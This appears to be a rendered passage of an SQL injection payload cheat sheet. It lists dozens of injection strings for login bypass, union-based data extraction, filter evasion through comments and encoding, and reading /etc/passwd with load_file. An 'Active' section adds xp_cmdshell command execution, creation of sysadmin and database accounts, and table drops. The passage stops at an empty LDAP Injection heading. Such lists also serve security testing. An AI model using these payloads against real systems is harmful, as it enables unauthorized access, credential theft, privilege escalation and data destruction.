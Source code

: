 ```
 ' group by userid having 1=1--
 ' SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = tablename')--
 ' or 1 in (select @@version)--
 ' union all select @@version--
 ' OR 'unusual' = 'unusual'
 ' OR 'something' = 'some'+'thing'
 ' OR 'text' = N'text'
 ' OR 'something' like 'some%'
 ' OR 2 > 1
 ' OR 'text' > 't'
 ' OR 'whatever' in ('whatever')
 ' OR 2 BETWEEN 1 and 3
 ' or username like char(37);
 ' union select * from users where login = char(114,111,111,116);
 ' union select
 Password:*/=1--
 UNI/**/ON SEL/**/ECT
 '; EXECUTE IMMEDIATE 'SEL' || 'ECT US' || 'ER'
 '; EXEC ('SEL' + 'ECT US' + 'ER')
 '/**/OR/**/1/**/=/**/1
 ' or 1/*
 +or+isnull%281%2F0%29+%2F*
 %27+OR+%277659%27%3D%277659
 %22+or+isnull%281%2F0%29+%2F*
 %27+--+&password=
 '; begin declare @var varchar(8000) set @var=':' select @var=@var+'+login+'/'+password+' ' from users where login >
 @var select @var as var into temp end --<br>
 ' and 1 in (select var from temp)--
 ' union select 1,load_file('/etc/passwd'),1,1,1;
 1;(load_file(char(47,101,116,99,47,112,97,115,115,119,100))),1,1,1;
 ' and 1=( if((load_file(char(110,46,101,120,116))<>char(39,39)),1,0));
```

### Active SQL Injection (SQI)

```
 '; exec master..xp_cmdshell 'ping 10.10.1.2'--
 CREATE USER name IDENTIFIED BY 'pass123'
 CREATE USER name IDENTIFIED BY pass123 TEMPORARY TABLESPACE temp DEFAULT TABLESPACE users;
 ' ; drop table temp --
 exec sp_addlogin 'name' , 'password'
 exec sp_addsrvrolemember 'name' , 'sysadmin'
 INSERT INTO mysql.user (user, host, password) VALUES ('name', 'localhost', PASSWORD('pass123'))
 GRANT CONNECT TO name; GRANT RESOURCE TO name;
 INSERT INTO Users(Login, Password, Level) VALUES( char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72) + char(0x70)
 + char(0x65) + char(0x74) + char(0x65) + char(0x72),char(0x64)
```

## LDAP Injection
